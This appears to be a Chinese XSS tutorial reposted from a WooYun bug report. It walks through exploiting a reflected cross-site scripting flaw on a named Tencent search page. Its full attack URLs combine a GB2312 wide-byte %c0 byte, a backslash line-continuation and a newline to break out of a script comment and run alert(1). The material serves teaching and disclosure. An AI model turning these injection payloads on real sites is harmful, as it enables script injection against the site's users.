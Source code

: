 # 7\. 宽字节、反斜线与换行符一起复仇记

> 来源：[7\. 宽字节、反斜线与换行符一起复仇记](http://www.wooyun.org/bugs/wooyun-2010-016008)

## 简要描述

这一次，3 个家伙一起上啦～

## 详细说明

1\. 实例点如下：

```
http://cgi.data.tech.qq.com/index.php?mod=search&type=data&site=digi&libid=2&curpage=1&pagenum=30&filterattr=138, 138|16|4,5,4,5&filtervalue=3500-4000,%B4%F3%D3%DA4000|%D0%FD%D7%AA|WCDMA,WCDMA,HSDPA,HSDPA&tplname=centersearch.shtml&orderby=aaaaaaaaaaaa 
```

老规矩，继续看我们的输出。

![image](img/Image_026.jpg)

2\. 一共有 3 处输出，位于 HTML 属性里的那一处，我们放弃了，因为双引号被灭掉了。那么还剩下 2 处。 都是位于`<script>..</script>` 里，而且挨在了一起。

3\. 先看第 2 处，是不是似曾相似啊？ 对的，教程 6 里刚刚遇到过。那就是输出在【注释】的情况。我们用换行符试试？

![image](img/Image_027.jpg)

4\. 一条是好消息，换行可以用，一条是坏消息。。下面出现的一句坏了我们的好事。。肿么办。

5\. 这个时候，我们需要先说点 javascript 的知识。 javascript，字符串允许下面多行的写法。

```
var a="我是一个字符串\ 我还是一个字符串";
alert(a); 
```

6\. 基于这点，我们可以把缺陷点构造成下面的样子。

```
//document.getElementById("order_select").value = "aaaa\ alert(1);//";
var searchOrder = "aaaa\ alert(1);//"; 
```

那么代码构造的解析如下：

![image](img/Image_028.jpg)

7.带着这个想法，请上我们的反斜线。。

![image](img/Image_029.jpg)

8\. 悲剧的是，反斜线被过滤成了 2 个`\\`，这下不好办了。

9\. 还记得在教程 4 里，我们提到的宽字节用法么？说到了 `%c0` 可以吃掉`%5c`。 我们看看页面的编码。

```
<meta http-equiv="Content-Type" content="text/html; charset=gb2312" /> 
```

gbxxx 系列的啊，窃喜中。

10\. 于是，我们的`%c0` 也加入战斗了。

```
http://cgi.data.tech.qq.com/index.php?mod=search&type=data&site=digi&libid=2&curpage=1&pagenum=30&filterattr=138,138|16|4,5,4,5&filtervalue=3500-4000,%B4%F3%D3%DA4000|%D0%FD%D7%AA|WCDMA,WCDMA,HSDPA,HSDPA&tplname=centersearch.shtml&orderby=aaaa%c0%5c%0aalert(1);// 
```

看看源码中的输出。 `\\` 被我们变成了 `乱码+\`

![image](img/Image_030.jpg)

11\. 此时，标点符号们正在开会，开会的主题是：“大家好，才是真的好”

## 修复方案

参加前面教程 4，5，6